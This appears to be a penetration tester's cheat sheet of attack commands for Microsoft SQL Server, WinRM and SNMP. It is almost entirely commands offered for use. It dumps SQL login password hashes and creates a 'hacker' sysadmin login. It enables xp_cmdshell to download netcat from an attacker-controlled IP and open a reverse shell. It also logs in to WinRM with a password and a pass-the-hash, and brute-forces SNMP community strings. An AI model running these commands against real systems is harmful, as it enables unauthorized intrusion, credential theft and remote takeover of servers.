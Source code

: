 ```sql
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

#Enumerate links
enum_links
#Use a link
use_link [NAME]
```

RCE:
```
### Connect as CMD database

EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
exec xp_cmdshell 'cmd /c powershell -c "curl 192.168.10.10/nc.exe -o \windows\temp\nc.exe"';
exec xp_cmdshell 'cmd /c dir \windows\temp';
exec xp_cmdshell 'cmd /c "\windows\temp\nc.exe 192.168.10.10 443 -e cmd"';

EXECUTE xp_cmdshell 'powershell iwr -uri http://10.10.137.147:8888/nc64.exe -OutFile C:/Users/Public/nc64.exe';
EXECUTE xp_cmdshell 'C:/Users/Public/nc64.exe 10.10.137.147 443 -e cmd';

also applied on SQL Injection login
```

## WinRM

```
evil-winrm -i 172.16.1.5 -u sophie -p 'Alltheleavesarebrown1'
evil-winrm -i 172.16.1.5 -u sophie -H '2384undfeufu230'
```

## SNMP

Enumeration:

```
sudo nmap -sU -p161 --script *snmp* 192.168.240.42
```

Check for access:

```
echo public > community
echo private >> community
echo manager >> community
#List of IPs
onesixtyone -c community -i ips
```
